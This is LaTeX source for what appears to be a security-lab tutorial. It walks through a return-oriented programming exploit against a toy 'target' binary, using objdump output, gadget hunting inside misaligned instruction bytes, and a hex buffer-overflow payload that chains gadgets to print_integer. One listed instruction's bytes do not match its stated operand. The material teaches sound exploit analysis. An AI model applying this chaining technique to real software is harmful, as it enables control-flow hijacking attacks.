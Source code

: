 \documentclass{article}
\newcommand{\function}[1]{\textbf{\lstinline{#1}}}
\begin{document}
We need to look for these instructions, followed by zero or more NOPs, followed by return. \\

\textit{objdump -d target $|$ grep -A 19 kick\_me}
\begin{lstlisting}[language={[x86masm]Assembler}]
0000000000400597 <kick_me>:
  400597:       48 83 ec 08             sub    $0x8,%rsp
  40059b:       bf 28 07 40 00          mov    $0x400728,%edi
  4005a0:       e8 eb fe ff ff          call   400490 <puts@plt>
  4005a5:       48 01 f7                add    %rsi,%rdi
  4005a8:       c3                      ret
  4005a9:       bf 0f 00 00 00          mov    $0x14,%edi
  4005ae:       c3                      ret
  4005af:       48 89 f8                mov    %rdi,%rax
  4005b2:       90                      nop
  4005b3:       90                      nop
  4005b4:       c3                      ret
  4005b5:       48 bd 00 48 c7 c6 35    movabs $0x35c6c74800,%rbp
  4005bc:       00 00 00
  4005bf:       90                      nop
  4005c0:       c3                      ret
  4005c1:       bf 60 07 40 00          mov    $0x400760,%edi
  4005c6:       e8 c5 fe ff ff          call   400490 <puts@plt>
  4005cb:       48 83 c4 08             add    $0x8,%rsp
  4005cf:       c3                      ret
\end{lstlisting}

\lstinline{movl $0x14, %edi} followed by \lstinline{ret} is at 0x4005a9.
\lstinline{addq %rsi, %rdi} followed by \lstinline{ret} is at 0x4005a5.
But where is \lstinline{movq $53, %rsi}?

We can find out what the desired bytes are by using the assembler like we did when creating our code injection earlier, and the bytes we want are 48~c7~c6~35~00~00~00.

Those bytes appear in the middle of another instruction!
If we point the instruction pointer to 0x4005b8, we'll find \lstinline{movq $0x35, %rsi} followed by \lstinline{nop} and \lstinline{ret}.

Let's create a string that overflows the buffer and then has ``return addresses'' for those gadgets, followed by \function{print_integer}'s address.

\begin{verbatim}
/* 0x28 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* gadget addresses follow */
a9 05 40 00 00 00 00 00 /* movl $20, %edi */
b8 05 40 00 00 00 00 00 /* movq $53, %rsi */
a5 05 40 00 00 00 00 00 /* addq %rsi, %rdi */
/* print_integer */
d0 05 40 00 00 00 00 00
\end{verbatim}
\end{document}
